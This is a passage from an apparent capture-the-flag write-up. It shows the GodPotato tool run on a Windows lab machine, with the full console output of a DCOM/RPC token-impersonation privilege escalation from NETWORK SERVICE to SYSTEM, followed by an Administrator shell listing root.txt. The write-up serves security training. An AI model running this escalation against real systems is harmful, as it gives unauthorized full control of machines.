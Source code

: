 ```powershell
PS C:\ProgramData> .\GodPotato-NET4.exe -cmd "cmd /c whoami"
.\GodPotato-NET4.exe -cmd "cmd /c whoami"
[*] CombaseModule: 0x140711718551552
[*] DispatchTable: 0x140711720860880
[*] UseProtseqFunction: 0x140711720241040
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] Trigger RPCSS
[*] CreateNamedPipe \\.\pipe\5e6d9ed3-c0cf-4dfd-a0c0-8902c56ce18f\pipe\epmapper
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00006802-1284-ffff-342f-8f9ecdfef721
[*] DCOM obj OXID: 0x9ee90f5d3c825f94
[*] DCOM obj OID: 0xad1f60a2b189ec42
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 944 Token:0x644  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 7652
PS C:\ProgramData>
```
{: .nolineno}

Now lets have a Administrative shell → 

![Untitled](Worker%20477baccc74f848e5a1ca7fe944d4d4e3/Untitled%2015.png)

I got it →

```powershell
PS C:\Users\Administrator> tree /f /a
tree /f /a
Folder PATH listing
Volume serial number is 32D6-9041
C:.
|   azure-devops.exe
|   
+---3D Objects
+---Contacts
+---Desktop
|       root.txt
|       
+---Documents
|       Add-Restorer-Tasks.ps1
|       Deny-Write.ps1
```